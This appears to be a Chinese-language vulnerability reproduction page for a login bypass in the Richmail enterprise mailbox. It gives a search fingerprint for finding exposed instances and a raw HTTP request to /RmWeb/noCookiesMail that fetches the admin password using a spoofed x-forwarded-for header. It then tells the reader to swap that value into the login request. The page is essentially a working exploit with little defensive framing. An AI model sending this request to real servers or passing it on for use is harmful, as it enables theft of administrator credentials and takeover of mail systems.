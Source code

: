 # Richmail 企业邮箱 noCookiesMail 登陆绕过漏洞

## 漏洞描述

Richmail 企业邮箱 noCookiesMail 接口存在登陆绕过漏洞，攻击者通过漏洞可以获取管理员账号密码登录后台

## 漏洞影响

<a-checkbox checked>Richmail 企业邮箱</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Richmail 企业邮箱"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1698647772423-398a9b02-899e-4fd0-ba4c-e93427ffcaea-20231108125736212.png)

验证POC

```php
GET /RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin HTTP/1.1 
Host:
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
x-forwarded-for: 127.0.0.1
```

![img](../../../.vuepress/public/img/1698647827407-ee5bc4fd-6790-428a-b56c-9287be10fce7.png)

替换登陆请求中的password字段即可登录